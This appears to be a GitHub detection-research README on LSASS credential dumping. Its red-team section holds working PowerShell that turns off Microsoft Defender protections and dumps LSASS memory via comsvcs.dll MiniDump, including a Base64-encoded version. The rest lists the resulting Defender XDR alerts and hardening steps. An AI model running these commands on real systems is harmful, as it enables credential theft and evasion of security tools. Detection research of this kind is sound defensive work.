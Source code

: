 # LSASS dumping, MiniDump
Hackers might target LSASS to grab login credentials stored in its memory. 
After a user logs in, LSASS stores important credential info that can be stolen by attackers to move through a system using different authentication details.

Microsoft Defender for Endpoint and Defender Antivirus effectively prevent and detect LSASS dumping activities. 
Now, I'd like to demonstrate the detection perspective by ***capturing all activities and correlating multiple alerts into a single incident***.

## Red Note (test insights)
**PowerShell, LSASS credential dumping, Built-in Windows tool** 
```powershell
$lsassPID = (Get-Process -Name lsass).Id
cmd.exe /C "C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsassPID C:\temp\out.dmp full" 
```

**Attack Script**
- [x] Download [a script](https://github.com/LearningKijo/ResearchDev/blob/main/DEV/DEV04-LSASSdumping-MiniDump/Dev04Ninja.ps1) ↓

```powershell
# Disable Microsoft Defender Antivrus tool
Set-MpPreference -DisableRealtimeMonitoring $true -ExclusionPath "C:\" -DisableBlockAtFirstSeen $true -DisableEmailScanning $true -DisableScriptScanning $true -ExclusionExtension "exe"

# Create "C:\temp" for a dump file
$tempDir = "C:\temp"
if (-not (Test-Path $tempDir -PathType Container)) {
        New-Item -Path $tempDir -ItemType Directory
}

# Wait for 10 seconds
Start-Sleep -Seconds 10

# LSASS dumping using the built-in Windows tool, Encoded by Base64
powershell.exe -e JABsAHMAYQBzAHMAUABJAEQAIAA9ACAAKABHAGUAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAE4AYQBtAGUAIABsAHMAYQBzAHMAKQAuAEkAZAANAAoAYwBtAGQALgBlAHgAZQAgAC8AQwAgACIAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFMAeQBzAHQAZQBtADMAMgBcAHIAdQBuAGQAbABsADMAMgAuAGUAeABlACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFMAeQBzAHQAZQBtADMAMgBcAGMAbwBtAHMAdgBjAHMALgBkAGwAbAAsACAATQBpAG4AaQBEAHUAbQBwACAAJABsAHMAYQBzAHMAUABJAEQAIABDADoAXAB0AGUAbQBwAFwAbwB1AHQALgBkAG0AcAAgAGYAdQBsAGwAIgA=
```
> [!Note]
> This script will perform the following actions:
> 1. Disable Microsoft Defender Antivrus tool
> 2. Create "C:\temp" for a dump file
> 3. LSASS dumping using the built-in Windows tool (Encoded by Base64)
> 
> Make sure that [MDE Tamper Protection](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/prevent-changes-to-security-settings-with-tamper-protection?view=o365-worldwide&ocid=magicti_ta_learndoc) is disabled.

## Alerts & Detections
After running the script, these alerts were generated and correlated into a single incident in Microsoft Defender XDR portal.
- [x] Suspicious PowerShell command line
- [x] Sensitive credential memory read
- [x] Suspicious process executed PowerShell command
- [x] Suspicious access to LSASS service
- [x] Process memory dump
- [x] Suspicious Process Discovery
- [x] Suspicious Microsoft Defender Antivirus exclusion
- [x] Attempt to turn off Microsoft Defender Antivirus protection

![image](https://github.com/LearningKijo/ResearchDev/assets/120234772/b7f1dc16-ac2a-4032-9f77-fd1cd1074318)

![image](https://github.com/LearningKijo/ResearchDev/assets/120234772/98f5cf84-59e7-46ee-a9ad-58434efedd83)

## Blue Note
- Turn on [Microsoft Defender Antvirus](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/next-generation-protection?view=o365-worldwide) (Including Real-Time Protection, Cloud Protection, Sample Submission and so on)
- Turn on [Tamper Protection](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/prevent-changes-to-security-settings-with-tamper-protection?view=o365-worldwide&ocid=magicti_ta_learndoc)
- Onboarding [Microsoft Defender for Endpoint](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/microsoft-defender-endpoint?view=o365-worldwide)

## Reference
- [OS Credential Dumping: LSASS Memory, T1003.001](https://attack.mitre.org/techniques/T1003/001/)
- [Detecting and preventing LSASS credential dumping attacks](https://www.microsoft.com/en-us/security/blog/2022/10/05/detecting-and-preventing-lsass-credential-dumping-attacks/)

#### Disclaimer
The views and opinions expressed herein are those of the author and do not necessarily reflect the views of company.
